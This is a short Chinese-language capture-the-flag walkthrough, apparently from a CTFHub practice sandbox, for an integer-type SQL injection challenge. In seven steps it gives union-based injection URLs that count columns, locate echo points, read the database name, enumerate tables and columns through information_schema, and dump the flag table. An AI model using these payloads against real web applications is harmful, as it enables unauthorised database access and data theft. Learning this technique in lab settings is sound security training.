






#### 第一步 判断注入点

由于题名说明了整数型，所以这里直接跳过


#### 第二步 判断字段数



```sql
http://challenge-1cdb832102ec35fd.sandbox.ctfhub.com:10800/?id=1 order by 2
//判断字段数
```


#### 第三步 判断回显点



```sql
http://challenge-1cdb832102ec35fd.sandbox.ctfhub.com:10800/?id=1 union select 1,2
//判断回显点
```


#### 第四步 查询数据库名

```sql
http://challenge-1cdb832102ec35fd.sandbox.ctfhub.com:10800/?id=-1 union select 1,database()
//查询数据库名
```





#### 第五步 查询表名

```sql
http://challengecdb832102ec35fd.sandbox.ctfhub.com:10800/?id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()
//查询该库内所有的表名    group_concat 显示所有
```




#### 第六步 查询字段

```sql
http://challenge-1cdb832102ec35fd.sandbox.ctfhub.com:10800/?id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag'
//查询flag表内的所有字段
```



#### 第七步 查询字段内容

```sql
http://challenge-1cdb832102ec35fd.sandbox.ctfhub.com:10800/?id=-1 union select 1,group_concat(flag) from flag
//查询flag字段内的内容
```


